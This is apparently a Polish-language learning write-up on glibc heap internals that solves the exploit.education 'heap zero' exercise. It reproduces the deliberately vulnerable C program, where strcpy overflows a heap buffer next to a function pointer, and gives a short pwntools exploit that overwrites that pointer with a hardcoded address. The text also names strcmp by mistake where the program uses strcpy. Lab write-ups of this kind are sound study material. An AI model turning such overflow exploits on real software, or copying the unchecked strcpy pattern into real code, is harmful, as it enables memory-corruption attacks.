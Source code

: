 # HEAP

### 1. Czym jest sterta i jak działa?

Sterta to jeden z obszarów pamięci przydzielony każdemu programowi. Sterta, nie tak jak stos, jest alokowana dynamicznie. 
Program za pomocą specjalnych funkcji może zażadać oraz zwolnić pamieć z sterty, kiedy tego potrzebuje. 

Sterta jest pamięcią globalna - można uzyskać do niej dostęp i ją zmodyfikować z dowolnego miejsca w programie. W tym celu właśnie sterta korzysta z `pointerów`.
Porównując to z odkładaniem zmiennych na stosie widzimy niewielki spadek wydajności.

Funkcje przeznaczone do komunikacji ze stertą  dla programisty to:
 * free - służy do zwolnienia pamięci 
 * `malloc`, `realloc`, `calloc` - służą do alokowania pamięci.

Funkcje te wykorzystują pod spodem syscalle takie jak:
* `mmap`
* `munmap`
* `sbrk`

Struktura jednego chunku sterty wyglada tak:
```c
struct malloc_chunk {
  INTERNAL_SIZE_T      mchunk_prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      mchunk_size;       /* Size in bytes, including overhead. */
  struct malloc_chunk* fd;                /* double links -- used only if free. */
  struct malloc_chunk* bk;
  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
  struct malloc_chunk* bk_nextsize;
};

typedef struct malloc_chunk* mchunkptr;
```

Sterta sklada się z kilku rodzajów binów, które przetrzymują wolne chunki - są to listy lub tablice.

Sterta zawiera dużo sprawdzeń bezpieczeństwa, ale nadal jest podatna na kilka ataków mogących wpłynąć na wykonanie programu. Zła praktyka programistyczna też nie pomaga w bezpieczeństwie.

### 2. Podstawy

Aby zapoznać się z podstawowymi exploitami typu heap overflow posługuję się podatnymi aplikacjami z [https://exploit.education/](https://exploit.education/).

#### 2.1

Zacznę od prostego exploita heap overflow - heap zero.

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to heap zero, brought to you by https://exploit.education"

struct data {
  char name[64];
};

struct fp {
  void (*fp)();
  char __pad[64 - sizeof(unsigned long)];
};

void winner() {
  printf("Congratulations, you have passed this level\n");
}

void nowinner() {
  printf(
      "level has not been passed - function pointer has not been "
      "overwritten\n");
}

int main(int argc, char **argv) {
  struct data *d;
  struct fp *f;

  printf("%s\n", BANNER);

  if (argc < 2) {
    printf("Please specify an argument to copy :-)\n");
    exit(1);
  }

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  strcpy(d->name, argv[1]);

  printf("data is at %p, fp is at %p, will be calling %p\n", d, f, f->fp);
  fflush(stdout);

  f->fp();

  return 0;
}
```

W tym przypadku mamy dwie struktury - data oraz fp. Ze struktury data da sie nadpisać strukturę fp przez użycie funkcji strcmp.

Podaje do programu ciąg znaków. 

Staram się odnaleźć go na stercie.

![img.png](img.png)

Widzę na stercie dużo liter A. Mając dość dużo szczęścia udało mi się nadpisać idealna ilość bajtów. Na rysunku zaznaczony jest chunk data. Potem znajdują się headery chunku fp.

Wystarczy nadpisać 16 bajtów więcej, a następnie podać adres funkcji do której chcemy skoczyć.

![img_1.png](img_1.png)

Funkcja winner jest pod adresem `0x80491b2`.

Exploit wygląda następująco:

```python
from pwn import *


str = b'a'*80+b'\xb2\x91\x04\x08'

p = process(["./vuln.o",str])

p.interactive()


```

Exploit działa.

![img_2.png](img_2.png)

